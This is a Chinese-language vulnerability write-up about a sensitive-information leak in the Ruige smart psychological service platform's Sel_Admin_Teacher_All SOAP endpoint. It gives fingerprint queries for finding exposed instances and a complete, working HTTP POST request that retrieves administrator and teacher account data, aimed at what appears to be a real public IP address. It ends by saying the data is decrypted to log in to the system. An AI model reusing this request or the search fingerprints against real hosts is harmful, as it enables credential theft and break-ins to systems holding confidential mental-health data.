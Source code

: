 ### 一、漏洞描述
 瑞格智慧心理服务平台是一家致力于提供个性化心理健康支持的平台。通过先进的AI技术和专业心理学家团队，为用户提供定制化的心理评估和个性化的心理咨询服务。平台注重隐私保护和数据安全，用户可以安全、便捷地接受在线咨询和心理指导，帮助他们理解和应对各种心理健康挑战，提升生活质量和心理健康水平。瑞格智慧心理服务平台Sel_Admin_Teacher_All存在敏感信息泄露漏洞

### 二、影响版本
智慧平台

### 三、资产测绘
```plain
web.icon=="9d305e4b4f7603ccac03b0e535049ba0"
body="指纹登录\",\"请安装指纹驱动或启动服务"
```

![](images/1719472952366-6389de4f-dc42-45b1-9214-ac525a1d6838.png)

### 四、漏洞复现
```plain
POST /NPreenManage/NPreenSMSList.asmx HTTP/1.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=nsoaozjclmg0plovofpkcjqu
Connection: close
SOAPAction: RuiGe.WebUi.NPreenSMS/Sel_Admin_Teacher_All
Content-Type: text/xml;charset=UTF-8
Host: 218.28.138.35:8888
Content-Length: 230

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ruig="RuiGe.WebUi.NPreenSMS">
   <soapenv:Header/>
   <soapenv:Body>
      <ruig:Sel_Admin_Teacher_All/>
   </soapenv:Body>
</soapenv:Envelope>
```

![](images/1723624081359-915ed91b-27d6-42a7-a13a-863d53d09dd5.png)

解密后登录系统

![](images/1723624308398-07db3e8e-3795-4e58-bfbd-134f3cc792f2.png)

